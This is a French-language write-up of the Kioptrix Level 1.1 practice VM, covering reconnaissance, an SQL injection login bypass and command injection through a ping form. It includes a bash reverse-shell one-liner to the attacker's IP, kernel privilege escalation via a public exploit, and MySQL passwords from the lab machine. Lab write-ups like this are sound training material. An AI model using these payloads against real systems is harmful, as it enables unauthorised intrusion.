

# Kioptrix: Level 1.1 (#2)

## Détails de la machine

**Nom :** Kioptrix: Level 1.1 (#2)\
**Date de sortie :** 11 Février 2011\
**Lien de téléchargement :** [http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar](http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un accès "root"\
**Description :**\
****`This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.` \
``\
`This is the second release of #2. First release had a bug in it with the web application`\
`2012/Feb/09: Re-releases`\
`2011/Feb/11: Original Release`

## Reconnaissance

`netdicover` permet d'identifier l'adresse IP 192.168.1.15 comme étant notre victime :

Suivi de `nmap` afin de scanner les services s'exécutant sur la machine :

Résultat : un service SSH, un serveur web (en version HTTP et HTTPS), un serveur d'impression CUPS ainsi qu'une base de données MySQL.

### Serveur HTTP

On commence directement par l'analyse du serveur web car je n'ai rien identifié de pertinent concernant la version 3.9 d'OpenSSH. Les résultats du `dirb` ainsi que du `nikto` ne donne rien de particulièrement intéressant non plus :

La sortie est tronquée avec un -r mais rien d'intéressant même dans les sous-dossiers. Voici la sortie du `nikto` :

On passe donc à l'analyse manuelle du site web. La page d'accueil est une mire d'authentification. Après quelques weaks credentials on tente de détecter une injection SQL avec un simple `' OR 1=1 --` :

Cela fonctionne et nous permet de récupérer la prochaine page qui est une fonction permettant de pinger une machine du réseau (ça sent l'injection de commande) :

On tente la plus simple des injections avec le caractère `;` permettant de séparer des commandes :

On récupère l'id du compte apache qui exécute le serveur web. L'injection de commande est confirmée.

### Serveur d'impression

Cups est un serveur d'impression permettant aux utilisateurs de configurer les différents imprimantes. Pour cela il est également possible d'accéder au service par son interface web, dans notre cas un "403 - Forbidden" nous l'interdit :

La version utilisée de CUPS est la version 1.1, elle est vulnérable au moins à la CVE suivante (car je n'ai pas beaucoup cherché mais il semble que d'autres CVE sont disponibles pour cette version) :

### MySQL

Nous ne connaissons pas la version du système de base de données afin de déterminer si le service est vulnérable à certaines CVE.

## Exploitation

### Injection de commande

Il est facile de récupérer un shell grâce à l'injection de commande. `netcat` ne semble pas disponible sur la machine cible, je suis donc passé par un `bash` grâce à la commande `;bash -i >& /dev/tcp/192.168.1.89/5555 0<&1`. Afin de l'utiliser dans la requête POST je l'ai préalablement encodée avec un encodage URL :&#x20;

Côté machine d'attaque, un `netcat` en écoute sur le port 5555 :

## Élévation de privilèges

Un `uname -a` nous indique une version de kernel 2.6.9 sur une Fedora 4.5 qui est vulnérable à la CVE-2009-2698 :

Voici la CVE :

Une fois l'exploit ([https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)) compilé et exécuté, nous sommes "root" :

## Conclusion

Il est également possible de récupérer les credentials de MySQL en affichant le fichier "index.php" du site web (soit une fois le shell récupéré ou alors via l'injection de commande) :

L'accès est refusé à partir d'une autre machine, mais une fois le shell récupéré grâce à l'injection de commande le contenu de la base est accessible :

Mais aucun des mots de passe ("hiroshima", ou "66lajGGbla") ne semble être le mot de passe du compte de "john" pour un accès en SSH. Pour information voici le contenu du fichier "/etc/passwd" :

Je n'ai pas était plus loin dans la compromission des comptes existants, aucun mot de passe ne semble traîner dans un fichier quelconque.

Cette machine était très facile et donc parfaite pour commencer le pentest. Rien de compliqué, des failles web et un LPE à coup d'exploit d'un kernel vulnérable.

